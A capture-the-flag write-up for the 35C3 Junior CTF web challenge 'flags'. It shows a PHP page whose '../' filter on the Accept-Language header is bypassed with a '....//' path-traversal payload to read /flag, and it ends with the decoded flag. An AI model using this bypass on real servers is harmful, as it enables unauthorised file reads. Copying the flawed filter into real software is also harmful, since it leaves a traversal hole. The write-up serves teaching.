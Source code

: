 # 35C3 Junior CTF – flags

* **Category:** Web
* **Points:** variable

## Challenge

> Fun with flags: http://35.207.169.47
>
> Flag is at /flag
>
> Difficulty estimate: Easy

## Solution

The page shows the PHP snippet of which is composed and an image.

The PHP code is the following.

```PHP
<?php
  highlight_file(__FILE__);
  $lang = $_SERVER['HTTP_ACCEPT_LANGUAGE'] ?? 'ot';
  $lang = explode(',', $lang)[0];
  $lang = str_replace('../', '', $lang);
  $c = file_get_contents("flags/$lang");
  if (!$c) $c = file_get_contents("flags/ot");
  echo '<img src="data:image/jpeg;base64,' . base64_encode($c) . '">';
```

The web site extracts the language passed via HTTP header, considers the first language and tries to load a picture from the `flags` folder; that picture will be displayed.

Even if the `str_replace('../', '', $lang)` instruction is used, the path traversal vulnerability is still present and can be abused using `....//` instead of `../`.

After some attempts, you will discover the correct HTTP header to use.

```
Accept-Language: ....//....//....//....//flag
```

The returned "image" will be the following.

```HTML
<img src="data:image/jpeg;base64,MzVjM190aGlzX2ZsYWdfaXNfdGhlX2JlNXRfZmw0Zwo=">
```

Decoding the Base64 will give you the flag.

```
35c3_this_flag_is_the_be5t_fl4g
```